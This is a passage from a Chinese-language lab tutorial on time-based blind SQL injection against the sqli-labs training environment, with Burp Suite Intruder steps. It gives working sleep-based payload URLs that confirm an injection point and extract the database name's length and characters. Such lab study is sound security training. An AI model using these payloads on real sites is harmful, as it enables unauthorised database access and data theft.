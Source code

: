 .......更改位置，逐步得出库名security

......以此类推，得出其他数据

**利用burpsuite测试**

对上面第三步进行抓包，使用intruder模块

![image-20201209162311335](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201209162311335.png)

设置payloads

![image-20201209162508699](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201209162508699.png)

start attack

![image-20201209163040562](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201209163040562.png)



## GET 时间盲注

当页面回显内容完全一致，考虑时间盲注

**1.检测是否存在注入点**

```
http://localhost/sqlilabs/Less-9/?id=1' and if(1=0,1,sleep(10))--+
```

![image-20201129174459638](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129174459638.png)

**if（expression,a,b）**  expression条件为真返回a,条件为假返回b

F12查看network信息，可以看到延迟了10秒，证明存在注入点

**2.判断当前数据库的长度**

```
http://localhost/sqlilabs/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+
```

![image-20201129175046395](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129175046395.png)

延迟10秒，说明判断成功，当前数据库长度为8

**3.判断当前数据库的第一个字符**

```
http://localhost/sqlilabs/Less-9/?id=1' and if(ascii(substr(database(),1,1))=115,sleep(10),1)--+
```

![image-20201129175759624](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201129175759624.png)

延迟10秒，说明当前数据库的第一个字符的ascii码是115，对应s

.......更改位置，逐步得出库名security

......以此类推，得出其他数据
